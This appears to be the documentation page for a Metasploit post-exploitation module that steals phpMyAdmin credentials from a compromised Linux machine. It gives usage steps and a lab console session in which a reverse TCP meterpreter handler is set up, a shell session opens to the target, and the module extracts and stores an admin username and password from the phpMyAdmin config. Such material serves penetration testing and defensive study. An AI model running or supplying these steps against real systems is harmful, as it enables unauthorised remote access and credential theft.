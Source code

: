 ## Description

This post module gathers PhpMyAdmin Creds from target Linux machine.

* https://www.phpmyadmin.net/downloads/ [Download URL]

## Verification Steps

1. Start `msfconsole`
2. Get a session
3. Do: `use post/linux/gather/phpmyadmin_credsteal`
4. Do: `set SESSION [SESSION]`
5. Do: `run`

## Scenarios

```
msf5 post(linux/gather/phpmyadmin_credsteal) > use multi/handler
msf5 exploit(multi/handler) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.37.1:4444 
[*] Sending stage (816260 bytes) to 192.168.37.226
[*] Meterpreter session 2 opened (192.168.37.1:4444 -> 192.168.37.226:34880) at 2018-09-06 08:49:52 -0500

meterpreter > background
[*] Backgrounding session 2...
msf5 exploit(multi/handler) > use post/linux/gather/phpmyadmin_credsteal 
msf5 post(linux/gather/phpmyadmin_credsteal) > set session 2
session => 2
msf5 post(linux/gather/phpmyadmin_credsteal) > run


PhpMyAdmin Creds Stealer!

[+] PhpMyAdmin config found!
[+] Extracting creds
[+] User: admin
[+] Password: acoolpassword
[*] Storing credentials...
[*] Post module execution completed
msf5 post(linux/gather/phpmyadmin_credsteal) > 

```
